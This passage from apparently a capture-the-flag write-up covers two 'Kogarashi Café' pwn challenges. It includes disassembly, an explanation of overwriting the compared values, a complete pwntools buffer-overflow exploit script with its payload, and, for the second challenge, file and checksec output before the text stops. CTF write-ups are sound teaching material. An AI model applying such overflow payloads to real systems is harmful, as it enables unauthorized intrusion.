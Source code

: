 ```
  0x08048659 <+115>:  push   DWORD PTR [ebp-0x10]  
  0x0804865c <+118>:  push   DWORD PTR [ebp-0xc]  
  0x0804865f <+121>:  push   0x8048860  
  0x08048664 <+126>:  call   0x8048400 <printf@plt>  
  0x08048669 <+131>:  add    esp,0x10  
  0x0804866c <+134>:  sub    esp,0xc  
  0x0804866f <+137>:  push   0x80488a4  
  0x08048674 <+142>:  call   0x8048430 <puts@plt>  
  0x08048679 <+147>:  add    esp,0x10  
  0x0804867c <+150>:  nop  
  0x0804867d <+151>:  leave  
  0x0804867e <+152>:  ret  
End of assembler dump.
```
We can see the `cmp` instructions at `main+71` and `main+80`, where the values compared are `0xc0ff33` and `0xdecafbad`. By placing these values at the corresponding offsets in little-endian format, we can get the flag.
Exploit.py
```
from pwn import *  
context.log_level = 'critical'  
elf = context.binary = ELF('./forbidden_recipe')  

gdbscript = '''  
break *main  
continue  
'''  

if args.REMOTE:  
   p = remote('chals1.apoorvctf.xyz', 3002)  
elif args.GDB:  
    p = gdb.debug(elf.path, gdbscript=gdbscript)  
else:  
   p = process(elf.path)   

log.info("\\\\n==== start exploit ====\\\\n")  
p.recvuntil(b"Barista: 'I remember you... what will it be this time?'")  
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaa\xad\xfb\xca\xde3\xff\xc0\x00'  
p.sendline(payload)  
print(p.recv())  
p.interactive()
```

## Kogarashi Café - The Secret Blend (Original Writeup)

Description:
Not everything on the menu is meant to be seen.

solution:
from the ELF file,
```
└─$ file secret_blend   
secret_blend: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=00003bb9e0cd2a32ea61c4b60004ed82aa94d4a9, not stripped
```
This is the same as above: a 32-bit LSB executable and not stripped.
security checks,
```
└─$ pwn checksec secret_blend   
[*] '/home/hyder/pra_ctf/apoorv/pwn/kogarashi2/files/secret_blend'  
   Arch:     i386-32-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
```